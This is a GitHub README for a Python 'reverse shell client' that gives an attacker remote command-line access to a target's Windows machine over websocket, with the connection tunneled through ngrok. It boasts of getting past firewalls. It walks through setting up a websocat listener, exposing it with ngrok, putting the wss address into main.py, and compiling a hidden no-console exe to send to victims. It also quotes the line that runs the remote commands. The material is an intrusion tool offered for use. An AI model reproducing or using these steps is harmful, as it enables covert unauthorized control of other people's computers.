

<p align="center">
  
</p>

# Intelligent Reverse Shell Client

## Introduction
 - This program is the client side of Reverse shell attack, It was created as a fun project but things get intresting when you can gain access to anybody's Windows command line without being concerned about the FIREWALL xD.
 - Because the Information are being transfered through Websocket, Firewall can do nothing to stop it on the client's system.
 - and Also about the security, By using this you don't need to do port forwarding and other unsafe stuff, so your security is more GURANTEED.
 - the only problem is the speed, the speed may be a little low and that depends on which tunneling service you are using, for now we use ngrok.

## DESCRIPTION
 - If you are the hacker you have to listen for the connection using websocat(included in project for both linux and Windows) and expose it to the internet with ngrok.
 - and then you have to paste the wss address to the main.py -> (the client file) and compile it to exe

---
## How to use
 * Assuming you already have enough knowledge about python, pyinstaller and websockets.

    First of all install the Requirements :
    ```
    pip install -r requirements.txt
    ```
    
    <br>then we have to first setup the listener, It is recomented to listen on a linux machine but Windows is also alright
    as you can see in `Listeners` Directory we have <a href="https://github.com/vi/websocat">Websocat</a><br>
     both for windows and linux, If you faced any error try downloading the last version

     based on your OS run:
    ```
    websocat -s xxxx
    ```
    where xxxx is the port you want to listen on so replace it with a port number like
    ```
    websocat -s 5050
    ```
    <br>
    Now we have to expose port 5050 to the internt so we can make it accessible for the target so we can access the target Windoes machine.
    <br>
    Doanload <a href="https://ngrok.com">ngrok</a>.<br><br>
    After downloading ngrok:<br>
    on windows : Move it to a folder so you can run it by opening a cmd in that directory<br>
    on Linux: Also do the same thing as windows except you also have to give execute permition to it by running:<br>
    
    ```
    chmod +x ngrok
    ```
    Then copy your Authtoken from <a href="https://ngrok.com">ngrok</a> Dashboard and then run:

    ```
    ./ngrok authtoken xxxxx
    ```
    replace your token with xxxxx.<br>
    After authenticating it's time to run it:

    ```
    ./ngrok http 5050
    ```
    (!) Note : make sure the port you are using for both websocat and ngrok are the same.<br>
    After Running that you will see something like this:<br>
    <p align="center">
    </p>

    Just Copy the link as underlined in the screen shot and paste it in `address = ""` variable in main.py <br> ( [!] Don't forget to replace `https` with `wss` ).
    <br><br>

    Now that we have set up our liteners we need to run main.py file.
    <br>

    ```
    py main.py
    ```
    but since we have to compile it to exe then it will be ready to be sent to our target.
    there are different ways of compiling .py to .exe e.g. Pyinstaller, cxfreeze, py2exe, Cython.
    <br>
    Just compile it to exe and then run it, and you'll gain access to that Windows machine from your litener machine.
    <br>
    
    <bt>
    run:

## IMPORTANT
---
 - Unfortunately I tried compiling main.py to a standalone exe using `Pyinstaller` but after running the exe everything works fine except when I try commands that are not localy defined in our main.py code.
 <br> Actually 
 main.py : Line 82 : `data = os.popen(cmd).read()` doesn't work after compiling with this command :
 
 ```
 pyinstaller --onefile --noconsole main.py 
 ```
 <br>

 - But if you compile it normally(not onefile) it works perfectly but it will be hard to carry it to the target to run it since it is not a single file.
 <br>


## NOTES
---
- Any Recommendation will be appreciated, don't forget `Pull requests` if you have any idea to improve this project . 👙🤺

 ### I'll appreciate if anyone can help us find a better way to compile it to a standalone single file Until pyinstaller fixes it.

### Do not HeZiTaTe to open issues if there was any other problem!
<p align="center">
❤️❤️❤️
</p>